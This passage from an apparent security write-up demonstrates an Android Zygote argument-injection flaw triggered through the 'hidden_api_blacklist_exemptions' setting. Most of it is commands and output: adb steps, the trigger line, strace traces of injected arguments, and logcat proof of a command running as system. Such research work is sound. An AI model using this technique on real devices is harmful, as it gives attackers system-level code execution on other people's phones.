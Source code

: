 ```bash
adb push payload_1.txt /data/local/tmp/
```
&nbsp;
**Monitor with `strace`**

Then, before running the `settings put global ...` command, in a separate terminal we can use `strace` to see what Zygote reads.

This will allow us to observe if Zygote interprets our _payload_ and if it manages to execute the embedded command.

Once everything is ready, the command to trigger the vulnerability would be:

`settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload_1.txt)"`

In the `strace` output, we can see the following:

```
recvmsg(5, {msg_name=NULL, msg_namelen=0, msg_iov=[{iov_base="6\n--set-api-blacklist-exemptions\n\n\n\n\n\n8\n--setuid=1000\n--setgid=1000\n--runtime-args\n--seinfo=platform:privapp:targetSdkVersion=30:complete\n--runtime-flags=1\n--nice-name=zYg0te\n--invoke-with\n/system/bin/logwrapper echo zYg0te $(id); #\n\n\n\n\nX\n", iov_len=8192}], msg_iovlen=1, msg_controllen=0, msg_flags=MSG_CMSG_CLOEXEC}, MSG_CTRUNC|MSG_TRUNC|MSG_NOSIGNAL|MSG_CMSG_CLOEXEC) = 239
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=6644, si_uid=1000, si_status=0, si_utime=1, si_stime=0} ---
```
&nbsp;
Wow! We see that our command indeed reached Zygote. Also, we can notice that the _system server_ placed a "6" in the argument count for the change to `hidden_api_blacklist_exemptions`, then a blank line ("\n"), and after that the directive "--set-api-blacklist-exemptions".

Next come six blank lines, five of which correspond to those in the file with the _payload_, and finally the number 8, which is the start of our injected command.

Everything looks correct, but if we try to check `logcat` to see the command output with:

logcat | grep zYg0te

nothing happens, nothing appears. Also, if we go to the phone screen in the emulator, the applications do not work, and the phone becomes unusable.

Fortunately, we have read several times all the public references about this vulnerability and in one of them, in some comment, someone mentions that it is important to remove `hidden_api_blacklist_exemptions` or this will happen. We will simply set its value to "null" and see what happens.

In the end, the whole process would look like this:

```bash
$ adb push payload_1.txt /data/local/tmp/
$ adb shell
generic_x86_arm:/ $ settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload_1.txt)"
generic_x86_arm:/ $ settings put global hidden_api_blacklist_exemptions null 
generic_x86_arm:/ $ logcat | grep zYg0te 
04-15 19:27:35.810  5578  5578 W zYg0te  : Unexpected CPU variant for X86 using defaults: x86
04-15 19:27:35.829  5597  5597 I echo    : zYg0te uid=1000(system) gid=1000(system) groups=1000(system),1065(reserved_disk),3009(readproc) context=u:r:system_app:s0
^C
130|generic_x86_arm:/ $ 
```
&nbsp;
There it is! The command executed and we can clearly see it ran as _system_. Beau-ti-ful.
